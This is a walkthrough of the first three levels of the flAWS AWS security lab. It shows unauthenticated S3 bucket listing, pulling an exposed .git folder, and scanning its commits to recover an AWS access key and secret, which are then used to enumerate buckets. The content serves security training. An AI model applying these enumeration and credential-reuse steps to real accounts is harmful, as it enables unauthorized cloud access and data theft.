 ```yaml
---
title: flAWS 1
date: 2022-03-31 12:00:00 +0500
categories: [Lab Practice Notes, AWS Labs]
tags: [aws,lab,flaws1,security]
image:
  path: /assets/img/covers/flaws-cover.jpeg
  alt: flAWS Artwork
---
```


## Level 1

> This level is *buckets* of fun. See if you can find the first sub-domain.
{: .prompt-info }

Begin with doing a `dig` of `flaws.cloud`, which returns the following &rarr; 

```
; <<>> DiG 9.16.1-Ubuntu <<>> flaws.cloud
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 55678
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 85e57acc1b19ec52 (echoed)
;; QUESTION SECTION:
;flaws.cloud.                   IN      A

;; ANSWER SECTION:
flaws.cloud.            15      IN      A       52.92.212.219

;; Query time: 531 msec
;; SERVER: 192.168.65.5#53(192.168.65.5)
;; WHEN: Thu Mar 31 21:09:06 CDT 2022
;; MSG SIZE  rcvd: 79
```

Then do an `nslookup` for the IP found, which gives the following &rarr; 

```
219.212.92.52.in-addr.arpa      name = s3-website-us-west-2.amazonaws.com.
Authoritative answers can be found from:
```

This gives hint of a static website running from S3 at `s3-website-us-west-2.amazonaws.com`. This also confirms that the non-DNS URL for the challenge is at `flaws.cloud.s3-website-us-west-2.amazonaws.com`.

Now, a new profile for `flaws` can be created with the region set to `us-west-2` and given that S3 is being used, permissions can be checked using the following &rarr; 

```bash
# no sign request is used to call without credentials
awsn s3 ls s3://flaws.cloud --no-sign-request --profile flaws
```

This gives the result &rarr; 

```
2017-03-13 22:00:38       2575 hint1.html
2017-03-02 22:05:17       1707 hint2.html
2017-03-02 22:05:11       1101 hint3.html
2020-05-22 13:16:45       3162 index.html
2018-07-10 11:47:16      15979 logo.png
2017-02-26 19:59:28         46 robots.txt
2017-02-26 19:59:30       1051 secret-dd02c7c.html
```

`robots.txt` and `secret-dd02c7c.html` seem interesting.

These can be retrieved using the command &rarr; 

```bash
aws s3 cp s3://flaws.cloud/robots.txt ./
```

The robots file did not give anything but the secret file gave the link to the next level as `http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`. Files can also be listed by directly going to `flaws.cloud.s3.amazonaws.com`.

---

## Level 2

> The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the free tier.
{: .prompt-info }

Calling `s3 ls` again on the discovered bucket gives an access denied message &rarr; 

```bash
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --no-sign-request
```

However, calling it with a valid profile lists the bucket which means that the bucket did not have proper permissions configured i.e., it allowed everyone to list items and get items. Retrieving the secret file gives the URL for the next level as &rarr; `http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud`.

---

## Level 3

> The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.
{: .prompt-info }

Listing the contents like previous parts gives a `.git` folder in the contents. Pulling that down as follows &rarr; 

```bash
aws s3 cp --recursive s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git ./git_stuff/
```

Running a secret scan in all commits using &rarr; 

```bash
for i in $(git --no-pager log | grep "^commit" | cut -d ' ' -f2); do git checkout $i 1>/dev/null 2>/dev/null; zsh /persist/secret_scan.sh; done
```

This gives a secret &rarr; `access_keys.txt:1:AKIAJ3...JKT7SA` and `access_keys.txt:2:secret_access_key OdNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys` 

Using this as a profile, all S3 buckets can be listed using &rarr; 

```bash
awsn s3 ls --proile flaws
```

This gives the following output &rarr; 

```
2017-02-12 15:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 11:34:53 config-bucket-975426262029
2017-02-12 14:03:24 flaws-logs
2017-02-04 21:40:07 flaws.cloud
2017-02-23 19:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 12:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 12:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 13:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 13:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 14:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

This is all the S3 buckets which are also the further levels.

---
